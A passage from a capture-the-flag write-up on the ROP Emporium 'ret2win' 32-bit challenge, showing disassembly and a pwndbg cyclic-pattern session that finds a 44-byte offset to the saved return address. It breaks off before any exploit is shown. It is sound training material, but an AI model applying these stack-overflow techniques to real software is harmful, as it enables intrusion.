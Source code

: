 ```bash
 8048621:       e8 aa fd ff ff          call   80483d0 <puts@plt>
 8048626:       83 c4 10                add    esp,0x10
 8048629:       90                      nop
 804862a:       c9                      leave  
 804862b:       c3                      ret  
```

The *buf* is stored at `ebp-0x28`, so:

* Distance from *buf* to *saved ebp*: 40 bytes
* Distance from *saved ebp* to *saved eip*: 4 bytes (per **x86 calling convention**)

Thus, the offset from *buf* to *saved eip* is 44 bytes (within the 56-byte read!).

We confirm this using **GDB**.

```bash
$ gdb-pwndbg

pwndbg> file ret2win32

pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

pwndbg> run
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Thank you!

Program received signal SIGSEGV, Segmentation fault.
 EAX  0xb
 EBX  0xf7fa3000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
 ECX  0xf7fa49b4 (_IO_stdfile_1_lock) ◂— 0
 EDX  1
 EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0
 ESI  0xffffd0f4 —▸ 0xffffd2db ◂— '/home/ap/Desktop/rop_emporium/ret2win/x86/ret2win32'
 EBP  0x6161616b ('kaaa')
 ESP  0xffffd020 ◂— 0x6161616d ('maaa')
 EIP  0x6161616c ('laaa')

pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
```

## Capture The Flag

